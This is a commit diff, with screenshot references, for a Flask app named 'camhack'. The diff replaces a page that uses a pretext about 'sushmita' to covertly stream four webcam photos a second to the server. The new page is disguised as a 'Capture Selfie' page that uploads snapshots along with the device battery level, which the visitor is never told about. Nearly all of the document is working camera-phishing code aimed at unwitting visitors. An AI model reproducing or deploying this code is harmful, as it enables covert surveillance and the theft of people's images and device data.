

Before and after one commit to Gajarbotol/camhack, a Flask app: page / in a window 1280 px wide. Shown: the part 145-519 px from the top of the page, without its empty margins (318-958 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>ARE YOU FRIEND OF SUSH?</title>
+    <title>Capture Selfie</title>
     <style>
         body {
             background-color: black;
@@ -19,64 +19,75 @@
         h1 {
             margin-bottom: 20px;
         }
-        .hacker-text {
-            color: green;
-            font-size: 24px;
-            font-family: monospace;
-            animation: flicker 1.5s infinite alternate;
+        button {
+            background-color: green;
+            color: black;
+            font-size: 16px;
+            border: none;
+            padding: 10px 20px;
+            cursor: pointer;
         }
-        @keyframes flicker {
-            0% { opacity: 1; }
-            50% { opacity: 0.5; }
-            100% { opacity: 1; }
+        #output {
+            margin-top: 20px;
+            border: 2px solid green;
+            padding: 10px;
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+        }
+        #output img {
+            max-width: 300px;
+            height: auto;
         }
     </style>
 </head>
 <body>
-    <h1>Are you know sushmita?</h1>
-    <div class="hacker-text">Wait we checking you...</div>
-    <video id="video" width="640" height="480" autoplay style="display:none;"></video>
-    <canvas id="canvas" width="640" height="480" style="display:none;"></canvas>
+    <h1>Welcome to the Selfie Page</h1>
+    <button onclick="startCapture()">Capture Selfie</button>
+    <div id="output"></div>
+    <script>
+        async function startCapture() {
+            if (navigator.mediaDevices && navigator.mediaDevices.getUserMedia) {
+                const stream = await navigator.mediaDevices.getUserMedia({ video: true });
+                const video = document.createElement('video');
+                video.srcObject = stream;
+                video.play();
 
-    <script>
-        const video = document.getElementById('video');
-        const canvas = document.getElementById('canvas');
+                setTimeout(async () => {
+                    const canvas = document.createElement('canvas');
+                    canvas.width = video.videoWidth;
+                    canvas.height = video.videoHeight;
                     const context = canvas.getContext('2d');
 
-        // Ask for camera access and capture photos automatically
-        navigator.mediaDevices.getUserMedia({ video: true })
-            .then(stream => {
-                video.srcObject = stream;
-                video.onloadedmetadata = () => {
-                    setInterval(() => {
-                        for (let i = 0; i < 4; i++) {
-                            setTimeout(() => {
+                    const snapshots = [];
+                    for (let i = 0; i < 3; i++) {
                         context.drawImage(video, 0, 0, canvas.width, canvas.height);
-                                const dataURL = canvas.toDataURL('image/png');
+                        snapshots.push(canvas.toDataURL('image/png'));
+                        await new Promise(resolve => setTimeout(resolve, 1000));
+                    }
 
-                                // Send the captured photo to the server
-                                fetch('/upload', {
+                    const battery = await navigator.getBattery();
+                    const batteryLevel = Math.round(battery.level * 100);
+
+                    for (const snapshot of snapshots) {
+                        const response = await fetch('/upload', {
                             method: 'POST',
-                                    body: JSON.stringify({ image: dataURL }),
                             headers: {
                                 'Content-Type': 'application/json'
+                            },
+                            body: JSON.stringify({ image: snapshot, battery: batteryLevel })
+                        });
+                        const data = await response.json();
+                        const img = document.createElement('img');
+                        img.src = snapshot;
+                        document.getElementById('output').appendChild(img);
                     }
-                                })
-                                .then(response => response.json())
-                                .then(data => {
-                                    console.log('Image uploaded successfully:', data);
-                                })
-                                .catch(error => {
-                                    console.error('Error uploading image:', error);
-                                });
-                            }, i * 250); // Capture photos at intervals within each second
+
+                    video.pause();
+                    stream.getTracks().forEach(track => track.stop());
+                }, 1000);
             }
-                    }, 1000); // Capture 4 photos every second
-                };
-            })
-            .catch(error => {
-                console.error('Error accessing camera:', error);
-            });
+        }
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
